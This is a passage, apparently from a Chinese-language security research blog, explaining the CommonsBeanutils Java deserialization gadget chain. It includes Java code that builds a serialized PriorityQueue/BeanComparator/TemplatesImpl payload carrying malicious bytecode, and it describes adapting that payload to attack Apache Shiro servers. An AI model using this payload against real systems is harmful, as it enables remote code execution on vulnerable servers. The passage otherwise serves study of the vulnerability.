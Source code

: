 ```java
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{
                ClassPool.getDefault().get(evil.EvilTemplatesImpl.class.getName()).toBytecode()
        });
        setFieldValue(obj, "_name", "godown");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        BeanComparator comparator = new BeanComparator();
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2,comparator);
// stub data for replacement later
        queue.add(1);
        queue.add(1);
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```





![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221206210050408.png)

那么这条链跟上面那个只用到了priorityQueue的区别在哪？

好像只是反序列化的入口从newInstance变成了getOutputProperties？

正是因为不再需要newInstance作为入口，也就不再需要Invokertransformer进行调用。也就是

`PriorityQueue#Compare()`->`TransformingComparator#transform`->`InvokerTransformer`->`TemplatesImpl#newTransformer()`这段过程可以全部舍弃掉，转而换成：

`PriorityQueue#compare()`->`BeanComparator#compare()`->`PropertyUtils.getProperty()`-> `TemplatesImpl#getOutputProperties()`

因此3.2.2和4.1就能开心的拿着这个payload去打



## 不需要CC库的shiroCommonBeanutils

shiro本身依赖commons-beautils库。所以上面的payload可以直接改造用来打shiro。

> 如果本地commons-beanutils和服务器shiro的CB版本不一样的话，serialVersionUID就会不同，也就不兼容。也就是打的时候需要把本地commons-beanutils改成和服务器一样的版本

那服务端没有commons-collections库的时候呢？

在new BeanComparator时，BeanComparator构造函数使用了ComparableComparator
